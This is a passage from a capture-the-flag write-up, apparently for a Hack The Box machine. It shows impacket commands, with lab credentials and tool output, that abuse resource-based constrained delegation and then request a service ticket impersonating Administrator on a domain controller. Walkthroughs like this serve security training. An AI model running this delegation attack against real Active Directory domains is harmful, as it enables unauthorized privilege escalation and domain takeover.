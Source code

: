 - `delegate-from 'HEKER$'`: Specifies the computer account that will delegate permissions. In this case, it's "HEKER$".
- `delegate-to 'DC$'`: Specifies the computer account that will receive the delegated permissions. In this case, it's "DC$".
- `dc-ip 10.10.11.5`: Specifies the IP address of the domain controller. In this case, it's "10.10.11.5".
- `action 'write'`: Specifies the action to be taken. In this case, it's "write", which means it will write the delegation settings.
- `'freelancer.htb/lorra199:PWN3D#l0rr@Armessa199'`: Specifies the domain and credentials used to authenticate. In this case, it's the "freelancer.htb" domain, with the username "lorra199" and password "PWN3D#l0rr@Armessa199".

```
┌──(kali㉿kali)-[~]
└─$ impacket-rbcd -delegate-from 'HEKER$' -delegate-to 'DC$' -dc-ip 10.10.11.5 -action 'write' 'freelancer.htb/lorra199:PWN3D#l0rr@Armessa199'
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Accounts allowed to act on behalf of other identity:
[*]     rbcd_account$   (S-1-5-21-3542429192-2036945976-3483670807-11604)
[*]     parrot$      (S-1-5-21-3542429192-2036945976-3483670807-11601)
[*]     BIGNAMEMUST$   (S-1-5-21-3542429192-2036945976-3483670807-11605)
[*]     ATTACKERSYSTEM$   (S-1-5-21-3542429192-2036945976-3483670807-11603)
[*]     WINGER$      (S-1-5-21-3542429192-2036945976-3483670807-11606)
[*]     WINGERABCDEFG$   (S-1-5-21-3542429192-2036945976-3483670807-11607)
[*]     ATTATTATTATTEM$   (S-1-5-21-3542429192-2036945976-3483670807-11608)
[*]     HACKERSYSTEM$   (S-1-5-21-3542429192-2036945976-3483670807-11609)
[*] Delegation rights modified successfully!
[*] HEKER$ can now impersonate users on DC$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     rbcd_account$   (S-1-5-21-3542429192-2036945976-3483670807-11604)
[*]     parrot$      (S-1-5-21-3542429192-2036945976-3483670807-11601)
[*]     BIGNAMEMUST$   (S-1-5-21-3542429192-2036945976-3483670807-11605)
[*]     ATTACKERSYSTEM$   (S-1-5-21-3542429192-2036945976-3483670807-11603)
[*]     WINGER$      (S-1-5-21-3542429192-2036945976-3483670807-11606)
[*]     WINGERABCDEFG$   (S-1-5-21-3542429192-2036945976-3483670807-11607)
[*]     ATTATTATTATTEM$   (S-1-5-21-3542429192-2036945976-3483670807-11608)
[*]     HACKERSYSTEM$   (S-1-5-21-3542429192-2036945976-3483670807-11609)
[*]     HEKER$       (S-1-5-21-3542429192-2036945976-3483670807-11610)
```

Now we can see we are able to act on behalf of other identity. Now i will use impcket to get service ticket from dc.

```
faketime -f +5h impacket-getST -spn 'cifs/dc.freelncer.htb' -impersonate Administrator -dc-ip 10.10.11.5 freelancer.htb/HEKER$:'Heker123@!'
```

![Untitled](Freelancer%20ddb658cf8b564ba0b3c161a2c4e057cb/Untitled%2016.png)
